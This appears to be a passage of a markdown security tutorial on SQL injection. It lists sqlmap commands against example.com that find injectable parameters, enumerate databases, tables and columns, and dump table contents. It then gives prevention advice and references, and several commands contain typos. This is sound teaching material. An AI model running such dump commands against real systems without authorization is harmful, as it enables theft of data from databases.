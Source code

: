 ### Automation with SQLmap

#### First scan

Scanning if this target has any sql vulnerables

```bash
    sqlmap –u "https://example.com?test=query"
```

#### Get information of database

To get all database

```sql
    sqlmap –u "https://example.com?test=query" –dbs
```

To get all tables

```sql
    sqlmap -u"https://example.com?test=query" --tables -D <database-name>
```

To get all columns

```sql
    sqlmap -u"https:example.com?test=query" --columns -D <database-name> -T <table-name>
```

To dump all data in database

```sql
    sqlmap -u"https://example.com?test=query" --dump -D <database-name> -T <table-name>
```

## How to prevent

- Using **parameterized queries** (also known as prepared statements) with safe function to limit input instead of string concatenation within the query.
- Handle user input to remove malicious payload or escape special character, ensure that user input cannot interfere with the structure of the intended SQL query.
- Handle status query to prevent system from returning error messages.
- Handle error messages without default system debug error messages.
- There are some safe function or framework able to mitigate this attacks.

## Reference

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [SQL injection portswigger](https://portswigger.net/web-security/sql-injection)
- [SQL injection hacktrick](https://book.hacktricks.xyz/pentesting-web/sql-injection)
